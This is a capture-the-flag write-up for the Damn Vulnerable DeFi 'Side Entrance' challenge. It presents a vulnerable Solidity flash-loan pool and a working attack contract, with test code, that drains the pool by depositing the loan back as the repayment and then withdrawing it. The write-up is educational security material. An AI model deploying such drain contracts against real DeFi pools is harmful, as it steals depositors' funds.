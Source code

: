 # 04_SideEntrance

## Challenge

A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already and is offering free flash loans using the deposited ETH to promote its system.

Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.

You are provided with the code for the flash loan providing pool:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    mapping(address => uint256) private balances;

    error RepayFailed();

    event Deposit(address indexed who, uint256 amount);
    event Withdraw(address indexed who, uint256 amount);

    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        
        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
}
```

## Solution

Here we once again have the same issue. We are only checking for our balance to be the same before and after the loan. 

We can abuse this by just using the flash loan to call the deposit() function passing it all the value we received from our loan (balance of the contract). When it comes to the possible revert, the balance is still the same, and the flash loan finishes. But now we have all the money assigned to us using balances and can just withdraw it using the withdraw() function. I once again wrote a simple attack contract:

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "./SideEntranceLenderPool.sol";
import "../DamnValuableToken.sol";

contract Attack_SideEntrance {

    address owner;

    function getEmBoyz(address _pool) public
    {
        SideEntranceLenderPool(_pool).flashLoan(_pool.balance);
        SideEntranceLenderPool(_pool).withdraw();
        msg.sender.call{value: address(this).balance}("");
    }

    function execute() external payable
    {
        SideEntranceLenderPool(msg.sender).deposit{value: msg.value}();
    } 

    receive() external payable
    {
        
    }  
}
```

We can then just deploy and call this in the test script the same way as we did before:

```js
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */

    const Attack_SideEntrance = await ethers.getContractFactory('Attack_SideEntrance', player);
    attack = await Attack_SideEntrance.deploy();
    await attack.connect(player).getEmBoyz(pool.address);
});
```

This works and finishes the challenge.
